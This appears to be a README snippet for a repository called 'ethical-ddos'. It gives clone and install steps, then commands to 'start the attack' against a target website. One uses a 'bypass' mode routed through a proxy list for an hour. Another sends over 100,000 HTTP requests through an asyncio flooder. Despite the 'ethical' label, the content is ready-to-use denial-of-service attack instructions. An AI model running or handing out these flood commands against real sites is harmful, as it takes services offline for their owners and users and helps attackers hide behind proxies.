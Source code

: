


**Clone and Install Script**

```shell script
git clone https://github.com/gamal-ahmed/ethical-ddos.git
cd ethical-ddos
pip install -r requirements.txt
```
**To start the attack from Linux-Kali**
The bypass
```shell script
cd ethical-ddos
python3 start.py bypass website 1 101 sockws5.txt 10970 3600 true
```
**Most Effecient to attack from MAC-OS**
```
--debug: for more info and details about the attack
```
```shell script
cd ethical-ddos
python3 asyncio_http.py --urls  website  --total_requests 103002 --debug
```

---

